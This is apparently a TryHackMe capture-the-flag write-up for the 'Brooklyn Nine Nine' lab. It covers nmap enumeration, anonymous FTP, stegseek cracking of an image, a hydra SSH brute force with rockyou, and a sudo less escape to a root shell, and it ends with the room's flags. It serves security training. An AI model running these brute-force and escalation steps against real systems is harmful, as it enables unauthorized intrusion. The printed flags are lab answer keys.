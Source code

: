# Brooklyn_nine_nine | THM | Vishakhan Pillai | 26/05/2025

```bash
export IP=10.10.123.189
```
## nmap

```
# Nmap 7.95 scan initiated Mon May 26 21:48:38 2025 as: /usr/lib/nmap/nmap --privileged -sC -sV -oN nmap/initial -vv 10.10.123.189
Nmap scan report for 10.10.123.189
Host is up, received reset ttl 60 (0.21s latency).
Scanned at 2025-05-26 21:48:39 IST for 16s
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 60 vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.58.216
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     syn-ack ttl 60 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQjh/Ae6uYU+t7FWTpPoux5Pjv9zvlOLEMlU36hmSn4vD2pYTeHDbzv7ww75UaUzPtsC8kM1EPbMQn1BUCvTNkIxQ34zmw5FatZWNR8/De/u/9fXzHh4MFg74S3K3uQzZaY7XBaDgmU6W0KEmLtKQPcueUomeYkqpL78o5+NjrGO3HwqAH2ED1Zadm5YFEvA0STasLrs7i+qn1G9o4ZHhWi8SJXlIJ6f6O1ea/VqyRJZG1KgbxQFU+zYlIddXpub93zdyMEpwaSIP2P7UTwYR26WI2cqF5r4PQfjAMGkG1mMsOi6v7xCrq/5RlF9ZVJ9nwq349ngG/KTkHtcOJnvXz
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBItJ0sW5hVmiYQ8U3mXta5DX2zOeGJ6WTop8FCSbN1UIeV/9jhAQIiVENAW41IfiBYNj8Bm+WcSDKLaE8PipqPI=
|   256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP2hV8Nm+RfR/f2KZ0Ub/OcSrqfY1g4qwsz16zhXIpqk
80/tcp open  http    syn-ack ttl 60 Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 26 21:48:55 2025 -- 1 IP address (1 host up) scanned in 16.93 seconds

```

## FTP Anonymous Login Enumeration
- FTP anonymous login found
- found note_to_jake.txt 

``` bash
cat note_to_jake.txt 

From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine


``` 

## HTTP Site Enumeration
- Examined source code to find this particular comment
```html
<!-- Have you ever heard of steganography? -->
```
- downloading the image in the website to analyse it further

## Analysing the downloaded image

- cracked the image password using stegseek

```bash
stegseek --crack brooklyn99.jpg /usr/share/wordlists/rockyou.txt steg_output.txt
```
```
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "steg_output.txt".
```

- Found a password for user name holt
```
fluffydog12@ninenine
```

## Initial Access
- Possible password for SSH service found earlier for the user holt
```bash
ssh holt@10.10.123.189
```
user.txt found at /home/holt


## Privilege Escalation

### Enumerating the User Holt
-
- searching for SUID binaries - no results
- searching for commands that can be run with sudo

```bash
sudo -l
```
```
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```

### Enumerating the User Jake
- Possible jake user found
- cracking jake's ssh password using hydra
```bash
hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.123.189
```
```
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-05-26 22:30:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.123.189:22/
[22][ssh] host: 10.10.123.189   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-05-26 22:30:58

```
- searching for commands that can be run with sudo

```bash
sudo -l
```
```
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```

exploiting /use/bin/less (using GTFObins)
```bash
sudo less /etc/profile
!/bin/sh
```

<b>root access achieved</b>


## Flags

-user.txt
```
ee11cbb19052e40b07aac0ca060c23ee
```

- root.txt
```
63a9f0ea7bb98050796b649e85481845
```

